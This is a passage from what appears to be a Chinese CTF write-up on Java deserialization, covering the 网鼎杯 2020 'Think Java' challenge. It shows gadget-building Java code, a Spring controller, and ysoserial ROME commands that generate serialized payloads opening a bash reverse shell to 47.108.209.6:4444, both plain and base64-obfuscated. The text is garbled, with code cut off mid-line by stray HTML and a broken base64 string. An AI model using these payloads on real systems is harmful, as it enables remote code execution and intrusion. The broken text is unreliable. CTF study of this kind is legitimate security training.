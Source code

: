 ```java
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setValue(s, "table", tbl);
        return s;
    }
}

```

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-49900e473a1159c8bbb2ac657ef47c0c2d635223.png)​

‍

例题分析
----

### \[网鼎杯 2020 朱雀组\]Think Java

先给了 4 个 class

```java
// Test.class
package cn.abc.core.controller;

import cn.abc.common.bean.ResponseCode;
import cn.abc.common.bean.ResponseResult;
import cn.abc.common.security.annotation.Access;
import cn.abc.core.sqldict.SqlDict;
import cn.abc.core.sqldict.Table;
import io.swagger.annotations.ApiOperation;
import java.io.IOException;
import java.util.List;
import org.springframework.web.bind.annotation.CrossOrigin;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@CrossOrigin
@RestController
@RequestMapping({"/common/test"})
public class Test {
    @PostMapping({"/sqlDict"})
    @Access
    @ApiOperation("\u4e3a\u4e86\u5f00\u53d1\u65b9\u4fbf\u5bf9\u5e94\u6570\u636e\u5e93\u5b57\u5178\u67e5\u8be2")
    public ResponseResult sqlDict(String dbName) throws IOException {
        List<span style="font-weight:bold;">Spring 中有 Rome 环境，使用 Rome 链</span>

```bash
java -jar ysoserial.jar ROME "bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzQ3LjEwOC4yMDkuNi80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" &gt; 1.bin
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME "bash -i &gt;&amp;/dev/tcp/47.108.209.6/4444 0&gt;&amp;1" | base64 -w 0
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar  ROME "bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzQ3LjEwOC4yMDkuN i80NDQ0IDA+JjE=|{base64,-d}|{bash,-i}" | base64 -w 0 &gt; 1.bin
```

